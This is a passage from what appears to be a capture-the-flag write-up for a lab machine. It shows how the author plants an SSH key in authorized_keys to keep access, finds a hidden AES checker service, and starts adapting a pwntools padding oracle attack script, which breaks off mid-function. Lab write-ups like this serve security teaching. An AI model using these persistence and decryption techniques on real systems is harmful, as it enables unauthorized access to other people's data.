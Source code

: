 After getting that shell, we can add our SSH public key to `/home/www/.ssh/authorized_keys` so we can log in directly without using the exploit.

```
root@kali:~# ssh www@10.10.10.89
Welcome to Ubuntu 16.04.4 LTS (GNU/Linux 4.4.0-124-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage
Last login: Tue Jun 12 01:34:47 2018 from 10.10.14.23
```
### Oracle padding

There's a hidden service runnning on port 1337 which prompts for a ciphertext string:

```
www@smasher:~$ netstat -panut |more
(Not all processes could be identified, non-owned process info
 will not be shown, you would have to be root to see it all.)
Active Internet connections (servers and established)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:1111            0.0.0.0:*               LISTEN      29166/tiny      
tcp        0      0 127.0.0.1:1337          0.0.0.0:*               LISTEN      -               
tcp        0      0 0.0.0.0:1338            0.0.0.0:*               LISTEN      8562/socat      
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      - 
```

```
www@smasher:~$ nc 127.0.0.1 1337
[*] Welcome to AES Checker! (type 'exit' to quit)
[!] Crack this one: irRmWB7oJSMbtBC4QuoB13DC08NI06MbcWEOc94q0OXPbfgRm+l9xHkPQ7r7NdFjo6hSo6togqLYITGGpPsXdg==
Insert ciphertext: test
Generic error, ignore me!
```

This looks like a challenge which can be solved through an Oracle Padding attack.

To solve this we'll modify the following script: [https://github.com/twd2/padding-oracle-attack/blob/master/attack.py](https://github.com/twd2/padding-oracle-attack/blob/master/attack.py)

Note: latest version of pwntools needs to be installed for Python3 in order for this to work: `pip3 install --upgrade git+https://github.com/arthaud/python3-pwntools.git`

```python
import sys
import time
import urllib
import urllib.parse
import urllib.request
import random
import argparse
import binascii
from pwn import *
import base64

def api(data):
  print(data)
  r = remote("10.10.10.89",1338,level='warn')
  r.recvuntil("Insert ciphertext: ")

  r.sendline(base64.b64encode(binascii.unhexlify(data)))
  print(base64.b64encode(binascii.unhexlify(data)))
  tmp = r.recvuntil('Insert ciphertext:').decode("utf-8")
  r.close()
  if 'OK!' in tmp:
    return True
```